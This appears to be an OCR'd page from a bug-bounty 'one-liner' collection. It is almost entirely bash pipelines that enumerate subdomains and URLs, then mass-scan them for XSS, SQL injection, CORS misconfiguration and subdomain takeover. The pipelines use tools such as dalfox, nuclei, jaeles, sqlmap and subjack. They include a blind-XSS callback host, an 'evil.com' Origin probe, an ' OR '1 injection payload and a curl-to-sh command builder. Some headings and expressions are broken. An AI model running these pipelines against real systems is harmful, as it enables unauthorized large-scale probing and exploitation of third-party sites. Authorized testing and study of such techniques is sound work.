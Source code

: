 ```bash
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro | dalfox pipe -b your.xss.ht -o xss.txt
```
**Find XSS + knoxss**
```bash
echo "domain" | subfinder -silent | gauplus | grep "=" | uro | gf xss | awk '{ print "curl https://knoxss[.]me/api/v3 -d \"target="$1 "\" -H \"X-API-KEY: APIKNOXSS\""}' | sh 
```
**Dump In-Scope Assests from Bounty Program**
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```
**Recon.dev**
```bash
curl "https://recon.dev/api/search?key=YOURAPIKEY&domain=target.com" |jq -r '.[].rawDomains[]' | sed 's/ //g' | anew |httpx -silent | xargs -I@ gospider -d 0 -s @ -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew
```
**Jaeles scan to bugbounty targets.**
```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ jaeles scan -s /jaeles-signatures/ -u @
```
```bash
curl -s "https://jldc.me/anubis/subdomains/sony.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | httpx -silent -threads 300 | anew | rush -j 10 'jaeles scan -s /jaeles-signatures/ -u {}'
```
**Nuclei scan to bugbounty targets.**
```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | httpx -silent | xargs -n 1 gospider -o output -s ; cat output/* | egrep -o 'https?://[^ ]+' | nuclei -t ~/nuclei-templates/ -o result.txt
```
```bash
amass enum -passive -norecursive -d https://target.com -o domain ; httpx -l domain -silent -threads 10 | nuclei -t nuclei-templates -o result -timeout 30
```
**Endpoints, by apks**
```bash
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's****' | anew | grep -v "w3\|android\|github\|http://schemas.android\|google\|http://goo.gl"
```

**Find Subdomains TakeOver**
```bash
subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/go/src/github.com/haccer/subjack/fingerprints.json -v 3 >> takeover ; 
```
**CORS Misconfiguration
```bash
site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```
**SQL Injection
```bash
findomain -t http://testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1
```
**Search SQLINJECTION using qsreplace search syntax error**
```bash
grep "="  .txt| qsreplace "' OR '1" | httpx -silent -store-response-dir output -threads 100 | grep -q -rn "syntax\|mysql" output 2>/dev/null && \printf "TARGET \033[0;32mCould Be Exploitable\e[m\n" || printf "TARGET \033[0;31mNot Vulnerable\e[m\n"
```